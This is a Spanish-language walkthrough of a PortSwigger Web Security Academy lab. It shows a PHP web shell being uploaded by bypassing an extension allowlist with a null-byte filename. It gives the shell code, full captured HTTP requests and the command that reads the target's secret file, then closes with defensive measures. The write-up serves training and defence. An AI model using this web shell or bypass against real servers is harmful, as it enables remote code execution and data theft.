



# PortSwigger Web Security Academy — File Upload Vulnerabilities — Lab 5

## Web shell upload via obfuscated file extension

**URL del laboratorio:**  
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension

**Tema:** File upload vulnerabilities  
**Técnica principal:** subida de web shell mediante ofuscación de extensión  
**Bypass utilizado:** null byte injection con `%00`  
**Objetivo:** leer `/home/carlos/secret` y enviar el secreto en el botón **Submit solution**.

---

## 1. Enunciado del laboratorio

El laboratorio contiene una funcionalidad vulnerable de subida de imágenes. La aplicación intenta limitar los archivos subidos permitiendo únicamente ciertos tipos de imagen, concretamente archivos JPG y PNG.

Sin embargo, la defensa se basa en una comprobación insuficiente del nombre del archivo. La aplicación puede ser engañada mediante una técnica clásica de ofuscación de extensión: añadir un byte nulo codificado en URL dentro del parámetro `filename`.

Para resolver el laboratorio, hay que:

1. Iniciar sesión con las credenciales proporcionadas.
2. Subir una web shell básica en PHP.
3. Evadir la validación de extensión usando una extensión ofuscada.
4. Ejecutar la web shell desde la ruta pública de avatares.
5. Leer el archivo `/home/carlos/secret`.
6. Enviar el secreto obtenido en **Submit solution**.

Credenciales:

```text
wiener:peter
```

---

## 2. Idea principal del laboratorio

Este laboratorio enseña un bypass clásico en vulnerabilidades de subida de archivos: **null byte injection**.

La aplicación intenta impedir que se suban archivos PHP comprobando que el nombre del archivo termina en una extensión permitida, como `.jpg` o `.png`. El problema es que la validación y el mecanismo final de almacenamiento no interpretan el nombre del archivo exactamente igual.

El payload clave es:

```text
shell.php%00.jpg
```

A primera vista, para un filtro simple, ese nombre parece acabar en `.jpg`, así que puede superar la validación.

Pero cuando `%00` se decodifica, se convierte en un byte nulo:

```text
shell.php\0.jpg
```

En ciertos contextos vulnerables, el byte nulo marca el final real de la cadena. Como resultado, el archivo acaba guardándose como:

```text
shell.php
```

Es decir:

```text
El filtro ve:        shell.php%00.jpg
El backend guarda:   shell.php
```

Esa diferencia de interpretación es la vulnerabilidad.

---

## 3. Qué es un byte nulo

Un **byte nulo** es el carácter `0x00`. En muchas APIs y lenguajes de bajo nivel, especialmente en C y en sistemas antiguos o mal integrados, el byte nulo indica el final de una cadena.

Ejemplo conceptual:

```text
archivo.php\0.jpg
```

Puede ser interpretado como:

```text
archivo.php
```

Todo lo que aparece después del byte nulo se ignora.

En una URL o en una petición HTTP, el byte nulo suele representarse codificado como:

```text
%00
```

Por eso, en este laboratorio se usa:

```text
filename="shell.php%00.jpg"
```

---

## 4. Por qué funciona este bypass

La aplicación probablemente aplica una lógica parecida a esta:

```text
si filename termina en .jpg o .png:
    permitir subida
si no:
    rechazar subida
```

Cuando enviamos:

```text
shell.php%00.jpg
```

el filtro puede comprobar el nombre sin interpretar correctamente el byte nulo y concluir:

```text
termina en .jpg → permitido
```

Pero después, otra capa del backend decodifica `%00` como byte nulo y el nombre queda truncado:

```text
shell.php\0.jpg → shell.php
```

Resultado final:

```text
Se permite porque parece JPG.
Se guarda como PHP.
Se ejecuta como PHP.
```

Este es el punto central del laboratorio: **la validación y el almacenamiento interpretan de forma distinta el mismo input**.

---

## 5. Diferencia con laboratorios anteriores de subida de archivos

En los laboratorios anteriores vimos varias situaciones:

| Laboratorio | Defensa | Bypass |
|---|---|---|
| Lab 1 | Sin validación | Subir `shell.php` directamente |
| Lab 2 | Restricción por `Content-Type` | Cambiar `Content-Type` a `image/png` o `image/jpeg` |
| Lab 3 | Directorio de uploads no ejecutable | Path traversal con `..%2f` |
| Lab 4 | Blacklist de `.php` | `.htaccess` + extensión alternativa `.l33t` |
| Lab 5 | Solo permite JPG/PNG por extensión | `shell.php%00.jpg` |

Aquí la defensa no se salta cambiando el `Content-Type`, ni moviendo el archivo de carpeta, ni usando `.htaccess`. Aquí se engaña la lógica del nombre del archivo.

---

## 6. Inicio del laboratorio

Al iniciar el laboratorio, se abre una página tipo blog de Web Security Academy.



La página muestra el título:

```text
Web shell upload via obfuscated file extension
```

En la parte superior aparece el estado del laboratorio como **Not solved** y el botón **Submit solution**.

Como el enunciado indica que podemos iniciar sesión con `wiener:peter`, vamos a **My account** e iniciamos sesión.

Una vez dentro de la cuenta de `wiener`, la aplicación muestra una funcionalidad de subida de avatar. Esta es la funcionalidad vulnerable.

---

## 7. Creación de la web shell

Creamos un archivo PHP llamado `shell.php`.

Contenido:

```php
<?php system($_GET['cmd']); ?>
```

Esta web shell lee un parámetro GET llamado `cmd` y lo ejecuta como comando del sistema.

Por ejemplo, si el archivo se ejecuta correctamente y visitamos:

```text
/files/avatars/shell.php?cmd=id
```

el servidor ejecutaría:

```bash
id
```

Y si visitamos:

```text
/files/avatars/shell.php?cmd=cat+/home/carlos/secret
```

el servidor ejecutaría:

```bash
cat /home/carlos/secret
```

El `+` en la URL representa un espacio, por eso:

```text
cat+/home/carlos/secret
```

se interpreta como:

```bash
cat /home/carlos/secret
```

También podríamos usar una shell más directa para el objetivo del lab:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Pero en este caso se usa `system($_GET['cmd'])` porque permite reutilizar la misma shell para ejecutar distintos comandos.

---

## 8. Primer intento: subir `shell.php`

Capturamos la petición de subida de avatar con Burp Suite. La petición tiene esta forma:

```http
POST /my-account/avatar HTTP/1.1
Host: 0a1b002304aaef58815ba3e600080009.web-security-academy.net
Cookie: session=AOD0g45B2vegpRYcCXADJf3XQgfK81DU
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1b002304aaef58815ba3e600080009.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundary5b08a0c56a9de545593234a967638ff2
Content-Length: 503
Origin: https://0a1b002304aaef58815ba3e600080009.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

------geckoformboundary5b08a0c56a9de545593234a967638ff2
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>

------geckoformboundary5b08a0c56a9de545593234a967638ff2
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary5b08a0c56a9de545593234a967638ff2
Content-Disposition: form-data; name="csrf"

prGrAZDBVLjBgnCGzkheo1ZRuGEz8kAQ
------geckoformboundary5b08a0c56a9de545593234a967638ff2--
```

El punto importante está aquí:

```http
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
```

Estamos intentando subir un archivo llamado `shell.php` con contenido PHP.

La respuesta del servidor es:

```http
HTTP/2 403 Forbidden
Date: Tue, 12 May 2026 14:49:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 171

Sorry, only JPG & PNG files are allowed
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Esto confirma que la aplicación está validando la extensión del archivo.

No dice simplemente “PHP no permitido”, sino:

```text
only JPG & PNG files are allowed
```

Eso nos da una pista muy clara: probablemente el filtro permite únicamente nombres que acaben en `.jpg` o `.png`.

---

## 9. Interpretación del error

El error significa que `shell.php` no pasa el filtro porque no termina en una extensión permitida.

La aplicación parece aplicar una validación tipo allowlist:

```text
permitir si acaba en .jpg
permitir si acaba en .png
rechazar cualquier otra extensión
```

Eso hace que un archivo llamado:

```text
shell.php
```

sea rechazado.

Pero si enviamos:

```text
shell.php%00.jpg
```

podemos engañar al filtro para que vea `.jpg` al final.

La idea es:

```text
shell.php%00.jpg
```

Filtro:

```text
¿termina en .jpg? Sí → permitir
```

Capa vulnerable posterior:

```text
%00 → byte nulo
shell.php\0.jpg → shell.php
```

---

## 10. Payload de bypass

Modificamos el parámetro `filename`.

Antes:

```http
filename="shell.php"
```

Después:

```http
filename="shell.php%00.jpg"
```

La parte del cuerpo multipart queda así:

```http
------geckoformboundary5b08a0c56a9de545593234a967638ff2
Content-Disposition: form-data; name="avatar"; filename="shell.php%00.jpg"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
```

Aquí hay un detalle importante: no es necesario que el `Content-Type` sea `image/jpeg` o `image/png` en este lab concreto si la defensa está centrada en el nombre/extensión del archivo. El bypass clave está en el `filename`.

En otros laboratorios sí era necesario manipular el `Content-Type`; aquí el problema es la extensión ofuscada.

---

## 11. Subida con `shell.php%00.jpg`

Enviamos la petición modificada y el servidor responde:

```http
HTTP/2 200 OK
Date: Tue, 12 May 2026 14:55:48 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 130

The file avatars/shell.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Esta respuesta es la prueba definitiva del bypass.

Nosotros enviamos:

```text
shell.php%00.jpg
```

Pero el servidor dice:

```text
The file avatars/shell.php has been uploaded.
```

Eso significa que el nombre final del archivo fue truncado y se guardó como:

```text
shell.php
```

La parte `%00.jpg` desapareció durante el procesamiento.

---

## 12. Por qué esta respuesta confirma la vulnerabilidad

La respuesta confirma dos cosas:

1. El filtro aceptó el archivo porque el nombre parecía terminar en `.jpg`.
2. El backend acabó guardándolo realmente como `.php`.

La cadena es:

```text
Input enviado:    shell.php%00.jpg
Filtro ve:        shell.php%00.jpg → parece JPG
Almacenamiento:   shell.php\0.jpg → shell.php
Archivo final:    shell.php
```

En otras palabras:

```text
La validación vio una imagen.
El servidor creó un script PHP.
```

Ese es el fallo.

---

## 13. Ejecución de la web shell

Una vez subido el archivo, lo ejecutamos accediendo a la ruta pública de avatares.

Construimos manualmente una petición GET:

```http
GET /files/avatars/shell.php?cmd=cat+/home/carlos/secret HTTP/2
Host: 0ab600e3032eb8b482991f4700f000d9.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Cookie: session=yRInPsTTNsUD5vRdkLcYGqmjDhhVlGUf
```

La parte importante es la primera línea:

```http
GET /files/avatars/shell.php?cmd=cat+/home/carlos/secret HTTP/2
```

La shell recibe este parámetro:

```text
cmd=cat /home/carlos/secret
```

Y el PHP ejecuta:

```php
system('cat /home/carlos/secret');
```

---

## 14. Respuesta con el secreto

El servidor responde:

```http
HTTP/2 200 OK
Date: Tue, 12 May 2026 16:53:15 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

5CTALFYktfwx97VC5VEuSUju6bMcblhX
```

El secreto obtenido es:

```text
5CTALFYktfwx97VC5VEuSUju6bMcblhX
```

Este valor es el contenido de:

```text
/home/carlos/secret
```

---

## 15. Enviar la solución

Una vez obtenido el secreto, hacemos clic en **Submit solution** e introducimos el valor obtenido.



Se introduce:

```text
5CTALFYktfwx97VC5VEuSUju6bMcblhX
```

Después de enviarlo, el laboratorio queda resuelto.



---

## 16. Cadena completa de explotación

La explotación completa queda así:

1. La aplicación permite subir avatares.
2. Probamos a subir `shell.php`.
3. La aplicación lo bloquea porque solo permite JPG y PNG.
4. Modificamos el nombre del archivo a `shell.php%00.jpg`.
5. El filtro acepta el archivo porque parece terminar en `.jpg`.
6. El backend interpreta `%00` como byte nulo.
7. El nombre se trunca y se guarda como `shell.php`.
8. Accedemos a `/files/avatars/shell.php`.
9. Apache ejecuta el archivo PHP.
10. La web shell ejecuta `cat /home/carlos/secret`.
11. Obtenemos el secreto.
12. Enviamos el secreto en **Submit solution**.
13. El laboratorio queda resuelto.

---

## 17. Diferencia entre el filtro y el backend

Este lab es un ejemplo perfecto de inconsistencia entre capas.

Una capa valida:

```text
shell.php%00.jpg
```

Otra capa almacena:

```text
shell.php
```

El problema no está solo en permitir uploads, sino en confiar en una validación que no coincide con el comportamiento real del almacenamiento.

Este tipo de vulnerabilidad aparece cuando:

- Un filtro analiza el input de una forma.
- Otra librería lo decodifica de otra forma.
- El sistema de archivos o el lenguaje de backend interpreta caracteres especiales de manera distinta.

Cuando esas capas no tienen una interpretación uniforme, se abren bypasses.

---

## 18. Qué es exactamente una web shell

Una web shell es un archivo que permite ejecutar acciones en el servidor a través de peticiones web.

En este caso:

```php
<?php system($_GET['cmd']); ?>
```

Funciona así:

```text
/files/avatars/shell.php?cmd=whoami
```

Ejecuta:

```bash
whoami
```

Y:

```text
/files/avatars/shell.php?cmd=cat+/home/carlos/secret
```

Ejecuta:

```bash
cat /home/carlos/secret
```

Esto es RCE: **Remote Code Execution**.

El atacante no solo sube un archivo. Consigue que el servidor lo ejecute como código.

---

## 19. Por qué esto es RCE

La vulnerabilidad se convierte en RCE porque el archivo final se guarda como `.php` y Apache/PHP lo ejecuta.

Si el servidor simplemente devolviera el archivo como texto, veríamos algo así:

```php
<?php system($_GET['cmd']); ?>
```

Pero en este caso el servidor ejecuta el código y devuelve la salida del comando.

La diferencia es crítica:

| Situación | Resultado |
|---|---|
| PHP servido como texto | No hay ejecución |
| PHP interpretado por el servidor | RCE |

Aquí ocurre lo segundo.

---

## 20. Por qué `shell.php%00.jpg` no debería funcionar en una aplicación segura

Una aplicación segura debería normalizar y validar el nombre del archivo de forma consistente.

No debería aceptar un nombre con `%00`, ni caracteres de control, ni secuencias ambiguas.

Además, debería:

- Rechazar cualquier archivo cuyo nombre contenga bytes nulos.
- Decodificar y normalizar antes de validar.
- No confiar en extensiones proporcionadas por el usuario.
- Generar un nombre nuevo aleatorio para el archivo.
- Guardar los uploads fuera del webroot.
- Servir los archivos mediante un handler seguro.
- Deshabilitar ejecución en directorios de subida.
- Validar contenido real mediante magic bytes.
- Reprocesar imágenes con una librería segura.
- Aplicar una allowlist estricta de tipos de archivo.

---

## 21. Qué habría evitado este ataque

Medidas de defensa correctas:

### 21.1. No guardar archivos con el nombre original

En vez de guardar:

```text
shell.php%00.jpg
```

la aplicación debería generar algo como:

```text
avatar_9f27a83c.png
```

### 21.2. Normalizar antes de validar

Primero se decodifica y normaliza el input. Después se valida.

Orden correcto:

```text
input → decode → normalize → validate → store
```

Orden peligroso:

```text
input → validate → decode → store
```

El segundo orden permite bypasses.

### 21.3. Rechazar bytes nulos

Cualquier `%00` o byte `0x00` en un nombre de archivo debe ser rechazado.

### 21.4. Deshabilitar ejecución en uploads

Aunque se suba un `.php`, el servidor no debería ejecutarlo en la carpeta de uploads.

### 21.5. Validar contenido real

No basta con mirar la extensión. Un archivo puede llamarse `.jpg` y contener PHP.

### 21.6. Usar allowlist real

Permitir solo tipos esperados y comprobarlos de varias formas:

- Extensión normalizada.
- MIME detectado por servidor, no por cliente.
- Magic bytes.
- Decodificación real como imagen.

---

## 22. Errores comunes del desarrollador

Este laboratorio refleja varios errores comunes:

1. Confiar demasiado en la extensión.
2. Validar antes de normalizar.
3. No rechazar caracteres especiales peligrosos.
4. Guardar archivos con nombres controlados por el usuario.
5. Permitir ejecución de scripts en rutas accesibles públicamente.
6. Creer que permitir solo `.jpg` o `.png` es suficiente.
7. No comprobar el nombre final realmente guardado.

La defensa falló porque el filtro no analizaba el mismo nombre que acabó usando el backend.

---

## 23. Resumen técnico del payload

Payload usado en `filename`:

```text
shell.php%00.jpg
```

Web shell:

```php
<?php system($_GET['cmd']); ?>
```

Ruta final:

```text
/files/avatars/shell.php
```

Comando ejecutado:

```bash
cat /home/carlos/secret
```

URL final:

```text
/files/avatars/shell.php?cmd=cat+/home/carlos/secret
```

Secreto obtenido:

```text
5CTALFYktfwx97VC5VEuSUju6bMcblhX
```

---

## 24. Frases clave para recordar

```text
El filtro veía un .jpg, pero el backend guardó un .php.
```

```text
El null byte rompe la interpretación uniforme del nombre del archivo.
```

```text
La validación debe hacerse después de normalizar, no antes.
```

```text
Un upload se convierte en RCE cuando el servidor ejecuta el archivo subido.
```

```text
La extensión visible no siempre coincide con el archivo real almacenado.
```

---

## 25. Conclusión

Este laboratorio demuestra que las validaciones de subida de archivos pueden fallar si solo comprueban superficialmente el nombre del archivo. Al usar `shell.php%00.jpg`, la aplicación cree que está recibiendo una imagen válida, pero el backend termina creando un archivo PHP real.

La explotación completa consiste en engañar el filtro con una extensión aparentemente permitida, conseguir que el archivo se guarde como `.php`, ejecutar la web shell y leer `/home/carlos/secret`.

La lección principal es clara: **no basta con validar extensiones; hay que normalizar, validar de forma consistente y evitar que cualquier archivo subido pueda ejecutarse como código**.
